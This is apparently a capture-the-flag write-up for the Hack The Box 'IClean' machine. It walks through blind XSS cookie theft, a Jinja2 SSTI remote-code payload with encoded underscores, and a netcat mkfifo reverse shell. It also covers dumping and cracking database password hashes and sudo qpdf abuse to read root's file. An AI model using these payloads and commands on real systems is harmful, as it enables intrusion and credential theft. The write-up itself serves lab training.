


## Introduction

- **Name** : IClean
- **Author** : [LazyTitan33](https://app.hackthebox.com/users/512308)
- **Difficulty** : Medium
- **OS** : Linux


## Enumeration

Start a port scan with **RustScan** and **Nmap** tools : 
```bash
rustscan -a 10.10.11.12 -r 1-65535 -- -A -oN nmap.txt
```

There are two open ports : 
```bash
Nmap scan report for 10.10.11.12
Host is up, received echo-reply ttl 63 (0.058s latency).
Scanned at 2024-04-13 20:20:38 CEST for 12s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2cf90777e3f13a36dbf23b94e3b7cfb2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG6uGZlOYFnD/75LXrnuHZ8mODxTWsOQia+qoPaxInXoUxVV4+56Dyk1WaY2apshU+pICxXMqtFR7jb3NRNZGI4=
|   256 4a919ff274c04181524df1ff2d01786b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJBnDPOYK91Zbdj8B2Q1MzqTtsc6azBJ+9CMI2E//Yyu
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```

SSH and HTTP services are up. 

The *OpenSSH* version doesn't seem vulnerable, so we will focus on *Apache* server.

### Exploring Website

Go on ``http://10.10.11.12``. It is redirecting on ``http://capiclean.htb``.

Add on your ``/etc/hosts`` the following line : 
```bash
10.10.11.12    capiclean.htb
```

Now, return on the website.

I tried to enumerate subdomains, directories but nothing. There is a ``/quote`` page which can be interesting.



Enter a random email and click on submit : 



Use **BurpSuite** to intercept the request and see what is happening : 

```bash
POST /sendMessage HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://capiclean.htb
Connection: close
Referer: http://capiclean.htb/quote
Upgrade-Insecure-Requests: 1

service=Tile+%26+Grout&email=random%40gmail.com
```

We could try to change ``service`` field and see the response but nothing.

The message gives a hint : 
```text
Your quote request was sent to our management team. They will reach out soon via email. Thank you for the interest you have shown in our services.
```

Maybe we could be able to execute code when an administrator will read our request.
Let's try this ! 

To start, I will use a simple payload like this  : 
```bash

```

Wait ~30 seconds and... 
```bash
10.10.11.12 - - [13/Apr/2024 20:51:06] "GET /?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhrBWw.LQ7bfijdzg10JhSZRFmUakq7yZ0 HTTP/1.1" 200 -
10.10.11.12 - - [13/Apr/2024 20:51:06] "GET /?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhrBWw.LQ7bfijdzg10JhSZRFmUakq7yZ0 HTTP/1.1" 200 -
10.10.11.12 - - [13/Apr/2024 20:51:06] "GET /?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhrBWw.LQ7bfijdzg10JhSZRFmUakq7yZ0 HTTP/1.1" 200 -
10.10.11.12 - - [13/Apr/2024 20:51:06] "GET /?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhrBWw.LQ7bfijdzg10JhSZRFmUakq7yZ0 HTTP/1.1" 200 -
```

... we have a cookie ! 

### Going deeper 

We can use **Gobuster** a second time with our new cookie : 
```bash
gobuster dir --url http://capiclean.htb/ -w /opt/seclists/Discovery/Web-Content/big.txt -x html,php,txt --cookies 'session={COOKIE}'
```

A ``/dashboard`` appears. Open a web browser and go on : 

:bulb: Add ``Cookie: session={COOKIE}`` line with **BurpSuite** to access on the page ! 




Then, add the cookie with **Cookie-Editor** extension : 



Now it is easier to explore ! 

There are new pages : 
- ``/InvoiceGenerator``
- ``/QRGenerator``
- ``/EditServices``
- ``/QuoteRequests``

Like the previous part, you need to check what you can do and what you can input. 

*Don't forget to use **BurpSuite** to play with requests !*


### SSTI detection

Create an ``invoice``, copy the ``invoice-id`` and generate a QR.

The ``/QRGenerator`` page is interesting. Generate a QR : 


And the output is : 



Now, when we try to input other things like ``Hello Wolrd !`` instead of the links : 



The QR is not shown. Check the source code with ``CTRL + u`` : 



There is our ``Hello Wolrd !`` that appears. Check if there is a **XSS** with ``"><script>alert("XSS !")</script>`` : 



Nice ! Now, we could try if there is a **SSTI** with  ``"><h1>{{7*7}}</h1>`` :



The number ``49`` appears ! There is a **SSTI** ! 


### SSTI exploitation

For this part, we need to find the correct payload. After some tries, I found this one : 


{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}


The `_` character is encoded. It is a Unicode Hex Character.

Inject the payload and you can see that we can execute command as `www-data` : 



Setup a listener and get a reverse shell with `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {YOUR-IP} 1337 >/tmp/f` : 




## User Flag

There is a `app.py` file. Read its content with `cat` and you will find DB credentials : 
```bash
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```

Connect to the database with **MySQL** : 
```bash
(remote) www-data@iclean:/opt/app$ mysql -u iclean -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 1188
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

Enumerate DB and Tables : 
```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| capiclean          |
| information_schema |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use capiclean;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.00 sec)

mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)

mysql>
```

There is two users with a hash. Copy/paste them and use **JohnTheRipper** to bruteforce hash : 
```bash
john --wordlist=/opt/rockyou.txt hash.txt --format=raw-sha256
```

💡 *Format found with **Haiti** !*

```bash
consuela:0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa:simple and clean
```

Connect with SSH and get the user flag ! 

```bash
consuela@iclean:~$ ls -l user.txt 
-rw-r----- 1 root consuela 33 Apr 13 17:29 user.txt
consuela@iclean:~$ cat user.txt 
2821a0fe852ce0659b72bbcfe326ec75
consuela@iclean:~$ id
uid=1000(consuela) gid=1000(consuela) groups=1000(consuela)
consuela@iclean:~$
```


## Privilege Escalation

Run ``sudo -l`` : 

```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
consuela@iclean:~$
```

Try to know more about the binary with ``qpdf --help``.

There is a lot of options.

### Read the root flag 

When you type : ``qpdf --help=usage``, there is this option : 
```bash
- @filename is an argument file; each line is treated as a separate
  command-line argument
  ```

So , we could use : ``sudo /usr/bin/qpdf @/root/root.txt -``

```bash
consuela@iclean:~$ sudo /usr/bin/qpdf @/root/root.txt -
qpdf: open 9458bb6c2b5741caaf1a6f0df00d711c: No such file or directory
consuela@iclean:~$
```

As you can see, it is working because I know the filename and there is only one line.


## Conclusion

The box was really good and interesting.


Thanks for reading :)
